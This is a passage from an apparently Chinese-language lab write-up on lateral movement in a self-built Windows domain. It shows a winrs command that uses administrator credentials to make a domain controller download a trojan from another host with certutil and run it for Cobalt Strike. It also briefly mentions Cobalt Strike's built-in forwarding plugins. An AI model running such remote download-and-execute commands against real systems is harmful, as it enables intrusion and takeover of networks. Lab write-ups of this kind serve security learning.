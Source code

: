 ![image-20230723074101538](assets/5Y4HUmCiFfElLeS.png)

### 3.2.4. 上线CS

这里直接让域控下载一个木马，上线即可，需要注意，由于域控是在内网，无法访问到外网，需要使用到转发上线哦，这里我就不操作了，直接给命令，由于我也没搭建web服务器。

```
winrs -r:192.168.20.1 -u:192.168.20.1\administrator -p:admin@123 "cmd.exe /c certutil -urlcache -split -f http://192.168.20.10/3010.exe 3010.exe & 3010.exe"
```

## 3.3. CS内置插件

在CS中是有内置插件的，这里我们在获取端口存活哦，直接使用插件进行转发上线即可，选择一个账户密码即可，不过.....我依旧没测试成功，由于环境都是我自己搭建的，所以问题也比较多，其实这样才是最真实的，由于现实环境中，很多管理员设置完并不会考虑这些，所以会有遗漏的或者默认拦截的，导致我们在利用的时候，问题也是很多的。

![image-20230723074712257](assets/mhkPzrB2pEMJ6yF.png)
